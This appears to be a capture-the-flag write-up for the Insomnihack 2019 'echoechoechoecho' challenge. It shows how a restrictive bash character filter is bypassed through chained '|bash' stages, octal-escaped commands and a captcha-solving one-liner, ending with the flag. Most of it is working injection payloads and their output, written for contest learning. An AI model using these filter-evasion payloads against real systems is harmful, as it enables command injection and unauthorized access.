 # insomnihack CTF 2019
## echoechoechoecho - 216 , 18 solves
* [solve.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/insomnihack/echoechoechoecho/solve.py)
### The Challenge
Input `thisfile` gives us the source code, the input will be appended several `|bash` and be executed by `bash`. Only very few special characters are allowed:
```python
def check_input(payload):
    if payload == 'thisfile':
        bye(open("/bin/shell").read())

    if not all(ord(c) < 128 for c in payload):
        bye("ERROR ascii only pls")

    if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):
        bye("ERROR invalid characters")

    # real echolords probably wont need more special characters than this
    if payload.count("+") > 1 or \
            payload.count("'") > 1 or \
            payload.count(")") > 1 or \
            payload.count("(") > 1 or \
            payload.count("=") > 2 or \
            payload.count(";") > 3 or \
            payload.count(" ") > 30:
        bye("ERROR Too many special chars.")

    return payload
```
Payload can only contain `(` , `)` , `;` , `+` , `$` , `\` , `=` , ` ` , `'` and `echo`, and limited number of use of them.
### What we can use
* `$$` - bash process id.
* `$((1+2))` - 3.
### Variables
Thus it can not contain any lower case aphebat, but only `echo`.
* `$a` - `$echo`
* `$b` - `$echoecho`
* `$c` - `$echoechoecho`
* `echo=$$; echo $echo` -> `8`
### Bypass the limited number of use
We can store the special character in the variable. The payload `echo=\=; echo echoecho$echo$$` will output `echoecho=8`. Then we can pass it to `bash` use `|bash`. Other example: `echo=\'; echo echo $echo$$$echo` -> `echo '8'`.
### Generate any bumber
In the seccond `bash`, `$$` is equal to `10` and we can generate `1` by `$(($$==$$))`,`$((10==10))`.For now, we can use `1` and `10` to caculate any number.
### To char
* `echo $'\154\163'` -> `ls`
### We are almost done!
```
echo=\=;echo echoecho$echo\\\; echoechoecho$echo\\\( echoechoechoecho$echo\\\) echoechoechoechoecho$echo\\\+ echoechoechoechoechoecho$echo\\\'\; echo echo echo \\\\$\\\\\$echoechoechoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\$echoechoechoechoechoecho
```
* `|bash`
```
echoecho=\; echoechoecho=\( echoechoechoecho=\) echoechoechoechoecho=\+ echoechoechoechoechoecho=\'; echo echo echo \\$\\$echoechoechoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\$echoechoechoechoechoecho
```
* `|bash`
```
echo echo \$\'\\$(($((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10==10))+$((10==10))+$((10==10))+$((10==10))))\\$(($((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10==10))+$((10==10))+$((10==10))))\'
```
* `|bash`
```
echo $'\154\163'
```
* `|bash`
```
ls
```
* `|bash`
```
bin
boot
dev
etc
flag
get_flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
### There is a captcha `get_flag`
I follow the solution of captcha of <a href="https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/">LosFuzzys</a>:
```bash
eval "echo \$(($(cat /tmp/a)))"|/get_flag|(read l;read l;echo $l>/tmp/a;cat;)
```
### Finally the flag
`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`
* [solve.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/insomnihack/echoechoechoecho/solve.py)